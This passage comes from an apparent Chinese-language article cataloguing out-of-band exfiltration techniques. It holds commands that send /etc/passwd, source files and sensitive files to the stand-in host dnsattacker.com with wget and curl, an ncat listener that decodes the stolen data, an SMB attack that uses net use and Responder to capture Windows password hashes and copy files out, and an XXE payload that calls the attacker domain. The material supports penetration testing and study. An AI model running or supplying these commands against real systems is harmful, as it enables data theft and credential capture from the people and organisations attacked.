   
**攻击者：**  

```
echo &#34;0x$(ncat -lvp 9000 |grep -i evil|tr -d '/' |cut -d ' ' -f2)&#34; |xxd -r -p
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoeynHQNaeE4KgYbv1nSf4uIvy2XqpKzic3WbMSTsWF4jfYGKGlv6qkRw/640?wx_fmt=png&from=appmsg "")  
  
**类似地，我们可以使用**  

```
wget –post-data exfil='cat /etc/passwd' http://dnsattacker.com           # 在 post 部分提取数据


wget –post-file trophy.php http://dnsattacker.com    # 提取源代码


cat /path/to/sensitive.txt | curl –F &#34;:data=@-&#34; http://dnsattacker.com/test.txt
```

#### SMB [使用 Responder 窃取哈希]  
##### Windows  
  
**受害者**  

```
net use h: \\dnsattacker.com\web
```

  
**攻击者**  

```
sudo ./Responder.py -I eth0 # 运行 responder 捕获哈希
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoUmupRDa5ytTBibSfPvnicMYPff8z8JeOTURrGNCXl8a4kKPCOIUXvVbQ/640?wx_fmt=png&from=appmsg "")  
  
类似地，我们可以使用  

```
net use h: \\dnsattacker.com\web /user: {password} && copy {file.txt to Copy} h:\{file.txt}.txt
```

## XXE: Out of Band  
### 检测  
  
XXE 可以通过创建对攻击者域名（即 oob.dnsattacker.com）的 DNS 请求来确认。一个很好的 XXE 练习平台可在这里找到。  
  
**受害者：**  

```
<?xml version=&#34;1.0&#34;?>
<!DOCTYPE foo SYSTEM &#34;http://xxeoob.oob.dnsattacker.com&#34;>
<foo>&e1;</foo>
```
